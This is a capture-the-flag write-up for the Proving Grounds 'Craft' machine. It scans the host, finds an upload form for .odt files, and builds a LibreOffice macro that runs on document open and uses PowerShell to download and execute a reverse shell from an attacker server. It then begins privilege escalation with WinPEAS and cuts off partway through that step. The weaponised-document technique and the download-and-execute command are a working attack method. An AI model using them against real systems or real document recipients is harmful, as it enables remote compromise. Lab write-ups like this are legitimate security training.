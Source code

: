 ### Craft Proving Grounds Practice

### Difficulty = Intermediate

### IP Address = 192.168.175.169

Nmap Scan

```
└─$ nmap -sCV -A 192.168.175.169 -p80 -oN nmapscan                     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-23 23:35 WAT
Nmap scan report for 192.168.175.169
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.55 seconds
```

From the scan we can tell that only one tcp port is open

I'll head over to see what it is
![image](https://user-images.githubusercontent.com/113513376/221046662-3d73f892-cb01-4e17-8966-59ce005fb08c.png)

It doesn't contain anything much looking below shows a file upload form
![image](https://user-images.githubusercontent.com/113513376/221056128-935d2864-241a-448a-9b18-1a4122b93bff.png)

Uploading any file shows that it only accepts a .odt file 
![image](https://user-images.githubusercontent.com/113513376/221056229-d2f6ed55-35af-41c1-8eb0-7cbf5839908a.png)

After trying to upload a fake .odt file shows that it will be viewed soon
![image](https://user-images.githubusercontent.com/113513376/221056321-609ab0eb-cb2d-4baf-a87c-34899df2962e.png)

So with this we know that we can upload a .odt file which is just like an excel spreadsheet

But lets say if we manage to even upload a .php file we won't be able to execute it cause its been viewed by a person (bot)

Now we can perform a macros attack

Which basically puts in a malicious content in the file then after it is being viewed the macros content will be executed

### Payload Creation 

Here's what i'll do 
![image](https://0xdf.gitlab.io/img/image-20191126164802663.png)

```
I’ll open Calc, and go to Tools –> Macros –> Organize Macros –> LibreOffice Basic:
```

In the dialog box that pops up, I’ll select the document I’m working in on the left side (Untitled 1) and click “New”. I’ll give the module a name (“evil”), and click Ok to be taken to the macro editor:
![image](https://user-images.githubusercontent.com/113513376/221057141-7fc7502d-b1de-44bf-8b28-656672c72fda.png)

OpenOffice macros use Basic, a similar but [slightly different](https://wiki.openoffice.org/wiki/Documentation/FAQ/Macros/Can_I_use_my_Microsoft_Office_macros%3F) language to the VBA that’s in MS macros. To run a command on a Windows host from LibreOffice Basic, I’ll need to put it into Shell() as a string. So I wrap my command in "". To nest quotes, I’ll use two double quotes (""). I’ll call Shell to execute some simple download and execute code:

```
REM  *****  BASIC  *****

Sub Main

    Shell("cmd /c powershell ""IEX(New-Object Net.Webclient).downloadString('http://192.168.45.5/Invoke-PowerShellTcp.ps1')""")
    
End Sub
```

#### AutoOpen

Now I need to make sure this macro is run when the document is opened. I'll close the macro editors, and back in the document, go to Tools –> Customize -> Events tab:
![image](https://user-images.githubusercontent.com/113513376/221057696-e6d15dd4-c16c-4427-9b8c-79b4bc4a60fb.png)

I'll select "Open Document" and click on the "Macro…" button. I'll navigte to select my macro:
![image](https://user-images.githubusercontent.com/113513376/221059441-f630cdc9-d34e-47af-8b55-4d03bc709e02.png)

When I hit "OK", I see it now in the list:
![image](https://user-images.githubusercontent.com/113513376/221059503-f810f247-f894-461d-9aa4-bde2e5a4805b.png)

I'll save my sheet as shell.ods, and exit LibreOffice.

Reference to this [0xdf](https://0xdf.gitlab.io/2020/02/01/htb-re.html)

Cool with this payload i'll set up a listener on port 1337 and a http server on port 80 hosting a powershell reverse shell

I will rename shell.ods file to shell.odt

After uploading the shell.odt file i get back a connection after few seconds
![image](https://user-images.githubusercontent.com/113513376/221061013-fe9ebccc-8cb5-4f1e-900f-c9a0e1f8e8de.png)

Lets escalate priv 🤓

Uploading WinPEAS.exe and running it shows we have write access over the 
![image](https://user-images.githubusercontent.com/113513376/221062028-7aa9a78d-e0cd-4e37-b4e1-b4daae4f7c2a.png)
![image](https://user-images.githubusercontent.com/113513376/221062284-aea7f49a-d6e3-4709-aaac-2fa25b8c2349.png)
![image](https://user-images.githubusercontent.com/113513376/221062753-559a4f6f-4ccd-4e27-89df-b1544b4ff805.png)

It shows that two printer services are running i'll get a shell via msf then run exploit suggester





